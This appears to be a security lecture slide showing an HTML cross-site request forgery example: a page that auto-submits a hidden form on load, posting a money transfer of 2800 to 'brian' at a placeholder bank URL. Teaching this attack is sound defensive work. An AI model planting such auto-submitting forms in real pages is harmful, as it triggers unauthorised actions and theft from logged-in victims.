

<body onload="document.forms[0].submit()">
    <form action="https://yourbank.com/transfer" method="post">
        <input type="hidden" name="to" value="brian">
        <input type="hidden" name="amt" value="2800">
        <input type="submit" value="Click Here!">
    </form>
</body>